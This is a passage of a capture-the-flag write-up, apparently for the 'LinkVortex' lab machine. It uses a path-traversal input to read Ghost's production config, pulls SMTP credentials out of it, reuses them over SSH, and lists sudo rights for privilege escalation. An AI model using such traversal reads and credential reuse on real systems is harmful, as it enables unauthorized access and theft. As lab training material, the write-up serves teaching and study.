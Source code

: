 From the `github` repository for Ghost we saw that it has a configuration file, lets try reading it.
```python
Enter the file path to read (or type 'exit' to quit): ../../../config.production.json
File content:
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}

```

Now we have :  
- `user` : `bob`
- `password` : `fibber-talented-worth`  
We try ssh in as bob .
```bash
ssh bob@linkvortex.htb
```

# Privilege Escalation
Since we have the password let's start with `sudo -l`
```bash
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png

```